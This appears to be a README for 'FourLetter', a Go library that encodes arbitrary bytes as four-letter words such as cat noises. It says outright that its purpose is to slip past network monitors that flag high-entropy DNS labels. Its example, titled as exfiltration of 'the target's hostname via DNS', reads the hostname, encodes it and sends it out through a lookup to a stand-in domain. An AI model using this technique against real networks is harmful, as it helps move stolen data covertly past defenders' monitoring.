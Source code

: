 FourLetter
==========
Encode arbitrary bytes into four-letter words (or cat noises).

Some tools which watch network traffic look for high-entropy DNS labels.  This
is meant to get around that by encoding arbitrary bytes to a series of
four-letter (really four-byte) words.

For example, `ls -lart` turns into `meowmewwpurrmrowmewwmeowmewwmrowmeowmeowpurrmeowmrowmewwpurrmeowmeowmewwpurrmrowmrowmeowpurrmrowpurrmeowmewwmrowmeowmrowmewwmrow` using the default encoding.

Other, non-cat-noise words may be used.

Example
-------
Exfil of the target's hostname via DNS:
```go
h, err := os.Hostname()
if nil != err {
        panic(err)
}
net.Lookup(DefaultEncoding.EncodeToString(h) + ".example.com")
```
